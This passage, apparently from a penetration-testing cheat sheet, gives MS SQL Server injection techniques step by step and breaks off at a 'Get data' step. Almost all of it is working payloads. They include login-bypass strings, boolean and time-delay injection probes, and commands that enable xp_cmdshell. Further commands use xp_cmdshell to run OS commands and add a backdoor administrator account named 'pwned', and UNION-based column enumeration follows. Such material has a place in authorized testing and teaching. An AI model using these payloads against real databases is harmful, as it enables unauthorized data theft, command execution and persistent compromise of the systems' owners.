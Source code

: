     ```
    ' or ( 1=1 and username='admin');
    admin' --
    %bf%27 or 1=1 --
    ```

## MsSqli exploitation

The passwords are in hash format you need to crack the hash.

*   Find injectable parameter, doing do boolean based:

    ```
    1002' or '1'='1
    1002' and '1'='1
    1002' and '1'='2
    ```
*   Find injectable parameter with time delays:

    ```
    XX'; WAITFOR DELAY '0:0:5'--
    ```
*   If it works you can try to enable xp\_cmdshell:

    ```
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    EXEC sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;
    ```
*   Test xp\_cmdshell using a time delay:

    ```
    ';exec master..xp_cmdshell 'ping -n 5 127.0.0.1'; --
    ```
*   Add user

    ```
    ';exec master..xp_cmdshell 'net user pwned 1234 /ADD && net localgroup administrators pwned /ADD'; --
    ```
*   If it did not work, try enumerating the database. Find col until no error tells you the columns:

    ```
    1002' ORDER BY 1--
    1002' ORDER BY 2--
    1002' ORDER BY 3--
    ```
*   Run union query with num of cols:

    ```
    1002' UNION ALL SELECT null,NULL,NULL,NULL--
    ```
*   Get data:
